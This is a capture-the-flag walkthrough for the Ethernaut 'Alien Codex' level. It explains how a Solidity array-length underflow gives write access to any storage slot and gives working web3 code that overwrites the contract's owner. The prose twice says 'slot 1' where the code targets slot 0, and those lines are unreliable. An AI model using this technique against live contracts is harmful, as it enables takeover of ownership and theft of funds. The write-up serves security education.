 # 19. Alien Codex

You've uncovered an Alien contract. Claim ownership to complete the level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Go [here](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/helpers/Ownable-05.sol) for the sources of the Ownable contract.

## Vulnerability

Before Solidity 0.6.0, the `array.length` allowed read or write operations. So we can easily cause an underflow if we manage to substract 1 to an array length of 0.

0x0000000000000000000000000000000000000000000000000000000000000000 - 1 = 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

So an array with a length of 2^256 - 1 covers the whole storage space, therefore, the function `revise` allows us to rewrite any slot.

Remember that the storage layout is the following:

- slot 0 : 11 bytes are unused - 1 byte for the boolean value `contact` - 20 bytes for the owner address
- slot 1 : 32 bytes for the size of the array `codex`.

We can easily cause the underflow with the following code :

```js
await contract.make_contact();
await contract.retract();
```

Just to make sure of that we can check the array length :

```js
await web3.eth.getStorageAt(contract.address, 1)
// 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

Now we need to compute the storage slot where the array data is stored. A dynamic array in slot `p` has its length stored at `p` and its data stored sequentially at slot `keccak256(p)`.

```js
const dataSlot = web3.utils.soliditySha3("0x0000000000000000000000000000000000000000000000000000000000000001");
// 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

We want to loop back to slot 1 so : 2^256 which on 32 bytes will cause an overflow and loop back to 0:

```js
const dataSlot = new web3.utils.BN("b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6", 16)
const maxSlot = new web3.utils.BN("ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff", 16);
// Compute the index to reach storage slot 2^256 - 1 (0xffff....ffff) and add 1 to cause an overflow to reach storage slot 0.
const index = maxSlot.sub(dataSlot).add(new web3.utils.BN(1))
```

Let's make sure that we have the right index :

```js
await contract.codex(index);
// 0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
//   ^^^^^^^^^^^^^^^^^^^^ ^^  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
//        UNUSED BITS   BOOLEAN           OWNER ADDRESS
```
We see our boolean variable
Now we can rewrite the storage slot 1 with our own address :

```js
// Assuming your personal address is : 0xE613c2d3D36A7934589BC393119eD33Ac165A596
await contract.revise(index, "0x000000000000000000000001E613c2d3D36A7934589BC393119eD33Ac165A596")
```

You can now submit the challenge and move to the next one !
